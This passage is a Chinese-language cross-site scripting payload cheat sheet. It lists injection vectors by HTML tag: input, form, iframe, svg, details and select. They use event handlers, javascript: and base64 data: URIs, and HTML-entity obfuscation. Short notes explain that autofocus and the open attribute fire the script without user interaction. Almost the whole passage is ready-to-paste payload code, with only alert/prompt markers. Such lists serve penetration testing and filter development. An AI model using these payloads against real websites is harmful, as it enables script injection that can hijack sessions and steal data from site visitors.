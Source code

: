 ```html

通过 autofocus 属性执行本身的 focus 事件，
这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户触发
<input onfocus="alert('xss');" autofocus>
```

**`form`**

```html
<form action=javascript:alert('xss') method="get">
<form action=javascript:alert('xss')>
    
<form method=post action=aa.asp? onmouseover=prompt('xss')>
<form method=post action=aa.asp? onmouseover=alert('xss')>
<form action=1 onmouseover=alert('xss')>
    
<!--原code-->
<form method=post action="data:text/html;base64,<script>alert('xss')</script>">
<!--base64编码-->
<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

**`<iframe>`**

```html
<iframe src=javascript:alert('xss');height=5width=1000 /><iframe>
    
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<!--原code-->
<iframe src="data:text/html;base64,<script>alert('xss')</script>">
<!--base64编码-->
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
    
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
    
<iframe src="javascript&colon;prompt&lpar;`xss`&rpar;"></iframe>
```

**`<svg>`**

```html
<svg onload=alert(1);>
<svg/onload=prompt(1)
```

**`<details>`**

```html
<details ontoggle="alert('xss');">
    
使用 open 属性触发 ontoggle 事件，无需用户触发
<details open ontoggle="alert('xss');">
```

**`<select>`**

```html
<select onfocus=alert(1)></select>

通过 autofocus 属性执行本身的 focus 事件，
这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户触发
<select onfocus=alert(1) autofocus>
```
